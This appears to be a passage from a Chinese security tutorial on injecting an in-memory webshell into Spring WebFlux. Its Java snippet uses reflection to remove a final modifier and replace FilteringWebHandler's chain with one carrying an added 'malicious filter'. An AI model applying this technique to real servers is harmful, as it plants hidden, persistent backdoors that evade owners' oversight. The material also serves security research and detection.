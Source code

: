 `DefaultWebFilterChain`类存在有三个不同的重载

[![](assets/1698914691-09bff247430346b5342d82e8661ab6f4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101225648-e1f03e1a-78c6-1.png)

其中第一个是 private 方法，是用来创建 chain 的中间结点，第二个是一个 public 方法，在 FilteringWebHandler 构造方法中创建 chain 也是用的这个构造方法，我们也同样使用这个方法

该构造方法需要两个参数，`handler` and `filters`

-   handler: 我们可以从线程中从 chain 中获取原始的 handler
    
    [![](assets/1698914691-8a4dbcc1e759aedc6bdac5c0d1bc29ee.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101225657-e718725e-78c6-1.png)
    

-   filters: 我们的目的就是添加一个我们自定义的 filter，这里我们获取原始的 filters(不影响业务)，之后创建一个新的 List 集合之后将原始的 filters 和我们自定义的 filter 添加进入

```plain
// 获取 DefaultWebFilterChain 中的 handler 属性
Object handler1 = getField(chain, "handler");
// 获取原始 chain 中的 filters
List<WebFilter> filters = chain.getFilters();
// 创建自制的 filter 并添加进入 newFilters 集合中
ArrayList<WebFilter> newFilters = new ArrayList<>(filters);
WebFilter springWebFlux = new SpringWebFlux();
newFilters.add(springWebFlux);

// 模拟 chain 的初始化流程，创建一个包含恶意 filter 的 chain
DefaultWebFilterChain newChain = new DefaultWebFilterChain((WebHandler) handler1, newFilters);
// 反射将 newChain 替换 FilteringWebHandler 的 chain 属性
Field fieldChain = FilteringWebHandler.class.getDeclaredField("chain");
Field fieldModifiers = Field.class.getDeclaredField("modifiers");
fieldChain.setAccessible(true);
fieldModifiers.setAccessible(true);
// 去除 final
fieldModifiers.setInt(fieldChain, fieldChain.getModifiers() & ~Modifier.FINAL);
fieldChain.set(delegate2, newChain);
// 还原 final
fieldModifiers.setInt(fieldChain, fieldChain.getModifiers() & Modifier.FINAL);
```
